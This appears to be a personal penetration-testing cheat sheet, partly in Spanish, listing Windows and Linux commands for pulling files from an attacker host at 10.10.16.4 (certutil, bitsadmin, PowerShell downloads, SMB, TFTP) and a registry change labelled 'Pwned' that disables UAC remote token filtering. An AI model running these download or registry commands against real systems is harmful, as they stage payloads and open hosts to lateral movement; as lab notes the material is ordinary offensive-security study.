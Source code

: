 Windows Linux Commands For Files Transfers

Windows Commads
IWR( )
- powershell.exe -command iwr -Uri http://10.10.16.4/file -OutFile C:\Temp\file
- powershell.exe iwr -uri 10.10.16.4/file -o C:\Temp\file
- powershell iwr 10.10.16.4/file -o C:\Temp\file

Certutil
- certutil -urlcache -f http://10.10.16.4/file file
- certutil -urlcache -split -f http://10.10.16.4/file file 

Bitsadmin
- bitsadmin /transfer job http://10.10.16.4/file C:\Temp\file

Curl
- curl http://10.10.16.4/file -o file

Wget
- powershell wget http://10.10.16.4/file -OutFile file
- powershell.exe wget http://10.10.16.4/file -OutFile file

Powershell
- powershell.exe (New-Object System.Net.WebClient).DonwloadFile('http://10.10.16.4/file', 'file')

SMB
- copy \\10.10.16.4\smbFolder\file 
- net use x: \\10.10.16.4\smbFolder\file; cd x; copy \\10.10.16.4\file

TFTP
Es necesario usar el modulo Auxiliar Msf Server/tftp
- tftp -i 10.10.16.4 GET file.txt


Linux Commands 
Servidor Web Para compartir archivos
1.- python3 -m http.server 80
2.- Servidor por SMB -- impacket-smbserver smbFolder $(pwd) -smb2support
3.- msfconsole --> TFTP
4.-


# LocalAccountTokenFilterPolicy - Pwned
cmd /c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f

# Enumeracion de Pogramas
tasklist /V | findstr <programa>